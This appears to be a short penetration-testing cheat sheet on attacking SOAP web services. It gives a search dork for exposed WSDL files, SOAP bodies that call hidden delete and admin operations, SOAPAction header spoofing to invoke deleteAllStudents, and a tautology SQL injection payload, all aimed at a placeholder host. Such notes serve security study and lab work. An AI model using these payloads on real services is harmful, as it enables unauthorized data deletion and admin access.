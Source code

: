 Use google to find the wsdl file

    site:www.vuln.att filetype:wsdl

or you can use the **"?wsdl | .wsdl | ?disco"** at the end of the url

# Example

An application contains three operations and requires Student ID:

- **studentInfo** 
- **studentExam**
- **studentBilling**

But if we request the **wsdl** file we can notice some hidden operations like :

- **deleteStudent**
- **getAdminInfo**

So if there are no restrictions then we can change the **studentInfo** operation to **deleteStudent**.

    <SOAP-ENV:deleteStudent>
        <id>8</id>
    </SOAP-ENV:deleteStudent>

<br/>

# Spoof a SOAP action header

The header soap action is set to **getStudentInfo**

    SOAPAction: "http://www.vuln.att.com/getStudentInfo"

A remote attacker can invoke the method **deleteAllStudents**  by changing the soap header

    SOAPAction: "http://www.vuln.att.com/deleteAllStudents"

<br/>

# SQLi through SOAP


    <SOAP-ENV:getStudentInfo>
        <id> ' or '1'='1 </id>
    </SOAP-ENV:getStudentInfo>


# Lab example
### Bypass the SOAP body restrictions using the SOAPAction header.

<br/>

Add the header :

    SOAPAction: urn:ws-user-account#getAdminInfo

If the request is restricted to only admins, look for the soap action header related to the admin operation.